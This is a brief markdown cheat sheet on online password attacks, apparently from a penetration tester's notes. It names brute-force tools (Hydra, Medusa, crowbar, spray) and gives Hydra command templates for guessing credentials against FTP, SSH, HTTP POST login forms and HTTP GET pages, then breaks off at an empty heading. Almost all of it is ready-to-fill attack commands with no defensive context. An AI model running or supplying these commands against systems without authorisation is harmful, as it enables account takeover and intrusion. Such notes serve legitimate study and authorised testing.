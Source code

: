 # Online password attacks

### Online attack tools

```text
THC-Hydra || Medusa || crowbar || spray
```

### Hydra

```text
# attacking ftp
hydra -l/L <user> -p/P <pass> ftp://<target>

# attacking ssh
hydra -l/L <user> -p/P <pass> <target> -t 4 ssh

# attacking http post form
hydra -l/L <user> -p/P <pass> <ip> http-post-form "/<path>:username=^USER^&password=^PASS^:F=incorrect" -V

# attacking http get
hydra -l/L <user> -p/P <pass> <ip> http-get /<path>
```

### 

